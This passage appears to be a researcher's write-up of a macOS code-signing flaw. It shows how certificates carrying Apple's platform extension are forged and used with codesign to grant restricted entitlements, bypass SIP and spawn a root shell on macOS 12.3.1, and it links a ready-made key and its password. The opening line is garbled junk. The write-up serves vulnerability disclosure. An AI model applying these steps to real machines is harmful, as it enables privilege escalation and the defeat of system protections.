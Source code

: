 \* extremely 办证 voice * 办证1.2.840.113635.100.6.22

We generate our certificates using OpenSSL 3.0.3 from Homebrew. (macOS's built-in `openssl` is too old.)

I used [this script](https://github.com/zhuowei/CoreTrustDemo/blob/main/badcert/makecerts.sh) to:

- generate a chain of three certificates, all with the `CTOidAppleMacPlatform` extension
- package the certificates and the leaf certificate's private key into a .p12 file

If you don't want to generate your own, you can get my certificate and private key [here](https://github.com/zhuowei/CoreTrustDemo/blob/main/badcert/dev_certificate.p12), so you can re-enact [xkcd/1553](https://xkcd.com/1553/).

To use the key, first open the p12 file, and type `password` as the password to import it into Keychain.

Then, sign an app with the fake cert using `codesign`:

```
codesign -s "Worth Doing Badly Developer ID" -f --entitlements spawn_root.entitlements spawn_root
```

With a fake platform certificate, we can get any entitlement and defeat SIP. Without SIP, macOS is completely [unprotected](https://gist.github.com/ChiChou/e3a50f00853b2fbfb1debad46e501121).

For this demo, I chose to borrow [another](https://github.com/LinusHenze/Fugu14/blob/master/Writeup.pdf) of Linus Henze's tricks and use the `com.apple.private.persona-mgmt` entitlement to `posix_spawn` a root shell.

### Result

Running this app on macOS 12.4 crashes immediately:

```
$ ./spawn_root bash
Killed: 9
```

In the kernel log, AMFI rejects the entitlements:

```
kernel	AMFI: code signature validation failed.
kernel	AMFI: bailing out because of restricted entitlements.
```

But running on macOS 12.3.1 gives a root shell:

```
zhuowei-mini:~ zhuowei$ ./spawn_root bash
zhuowei-mini:~ root#
```

If you turn on cs_debug (`sysctl vm.cs_debug=1`), the kernel prints:

```
kernel	AMFI: vnode_check_signature called with platform 1
kernel	setting platform binary on task: pid = 964
```

Which shows that the kernel accepted our fake signed app as a genuine platform application.

